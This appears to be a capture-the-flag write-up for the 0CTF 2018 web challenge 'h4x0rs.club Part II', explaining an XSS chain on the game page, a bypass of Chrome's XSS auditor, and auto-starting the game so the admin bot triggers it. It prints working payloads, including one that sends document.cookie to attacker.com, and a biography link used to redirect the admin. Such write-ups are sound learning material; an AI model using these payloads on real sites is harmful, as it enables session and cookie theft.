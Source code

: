 # 0CTF 2018: h4x0rs.club  - Part II

**Category:** Web
**Points:** 687
**Solves:** 6
**Description:**

> Get document.cookie of the admin: https://h4x0rs.club/game/

**Note:** This is an unintendend solution for the challenge.
## Write-up
 
### Finding the XSS

There is a XSS on `/game/javascripts/app.js` in the function responsible for checking if the player won or lost the game.

```
function b() {
       x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show();
       [...]
 }
```

The function above copies the html of an element with id `audiences` to an element with class `js-user` so by creating these elements using the injection on `/game/?msg=` we can achieve javascript execution.

Then, theoretically, by accessing `https://h4x0rs.club/game/?msg=<div id="audiences"><script>alert(1);</div></div></div><div class="js-user"></div>` and clicking on the play button an alert should pop up after around 15 seconds (the time it takes for the game to end).

But it doesn't, we are stopped by Chrome's XSS auditor which blocks the access to the page because it detected that a `script` tag on the URL was also reflected into the page.

We can bypass it by sending `https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--alert(1);</div></div></div><div class="js-user"></div>` which isn't executed by the browser, but when appended by JQuery through the `append` function, will, surprisingly, ignore the `<!--`
and add our tag to the `js-user` div.

### Triggering the XSS

Finding the XSS isn't all that is needed to solve this challenge, given the user would have to click in the play button for the XSS to be triggered, and in this case, the admin will not interact in any way with the page after accessing it.

This is when the code on `/game/javascripts/client.js` comes in handy.

```
$( document ).ready(function() {
    CLIENT_GAME.init();
    [...]
    setTimeout(function(){$('.js-difficulty').children().click();}, 1000);
});
```

The code above will get all childrens of the elements with class `js-difficulty` and then click on them, exactly what we need to finish the chain.
By creating a div with class `js-difficulty` and inside it creating another div with class `js-start-button` we can start the game without any user interaction.

You can test it by accessing:

```https://h4x0rs.club/game/?msg=<div class="js-difficulty"><div class="js-start-button"></div></div>```

Combining these two we arrive at the final payload that will be sent to the admin:

```https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--location.href="http://attacker.com/?cookie="+document.cookie;</script></div><div class="js-user"></div><div class="js-difficulty"><div class="js-start-button"></div></div>```

### Sending the payload

The biography also isn't being properly sanitized, so you can set it to:

```<a href="http://attacker.com/redirect.html" id="report-btn"></a>```

Further, reporting your own profile to the admin with the hash `report` added to it will make the admin click on the link and be redirected to your website, because the code below is present in the page:

```
if(location.hash.slice(1) == 'report'){
       document.getElementById('report-btn').click();
}
```

Then you make `redirect.html` redirect the admin again to your final payload, which will start the game and trigger the XSS, sending his session (and the flag) back to you.

## Flag

```flag{postman_1n_the_middl3}```

## Contact

If you have any questions feel free to contanct me on [@lbherrera_](https://twitter.com/lbherrera_)
